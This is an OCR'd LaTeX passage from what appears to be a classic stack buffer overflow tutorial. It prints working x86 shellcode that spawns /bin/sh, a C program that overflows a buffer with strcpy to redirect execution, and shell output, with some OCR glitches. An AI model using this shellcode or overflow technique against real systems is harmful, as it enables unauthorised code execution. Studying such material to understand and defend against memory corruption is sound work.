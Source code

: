 \documentclass[10pt]{article}
\begin{document}
{\begin{lstlisting}[caption=testsc2.c,frame=single,frameround=tttt,breaklines=true]
void main() 
{
   int *ret;
   ret = (int *)&ret + 2;
   (*ret) = (int)shellcode;
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o testsc2 testsc2.c
[aleph1]$ ./testsc2
$ exit
[aleph1]$
\end{verbatim}

\section{Writing an Exploit}

Lets try to pull all our pieces together. We have the shellcode. We know it must be part of the string which 
we'll use to overflow the buffer. We know we must point the return address back into the buffer. This example 
will demonstrate these points:

\begin{lstlisting}[caption=overflow1.c,frame=single,frameround=tttt,breaklines=true]
char shellcode[] =
"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
"\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
"\x80\xe8\xdc\xff\xff\xff/bin/sh";

char large_string[128];

void main() 
{
  char buffer[96];
  int i;
  long *long_ptr = (long *) large_string;

  for (i = 0; i < 32; i++)
    *(long_ptr + i) = (int) buffer;  

  for (i = 0; i < strlen(shellcode); i++)
    large_string[i] = shellcode[i];

  strcpy(buffer,large_string);
}
\end{lstlisting}

\begin{verbatim}
[aleph1]$ gcc -o exploit1 exploit1.c
[aleph1]$ ./exploit1
$ exit
exit
[aleph1]$
\end{verbatim}

What we have done above is filled the array \verb+large_string[]+ with the address of buffer[], which is where our code 
will be. Then we copy our shellcode into the beginning of the \verb+large_string+ string. strcpy() will then copy 
\verb+large_string+ onto buffer without doing any bounds checking, and will overflow the return address, overwriting it 
with the address where our code  is now located.  Once we reach the end of main and it tr ied to return it jumps to 
our code, and execs a shell. The problem we are faced when trying to overflow the buffer of another program is 
trying to figure out at what address the buffer (and thus our code) will be. The answer is that for every program 
the stack will start at the same addres s. Most programs do not push more than a few hundred or a few thousand 
bytes into the stack at any one time. Therefore by knowing where  the stack starts we can try to guess where  the 
buffer we are trying to overflow will be. Here is a little program that will print its stack pointer: 


}
\end{document}

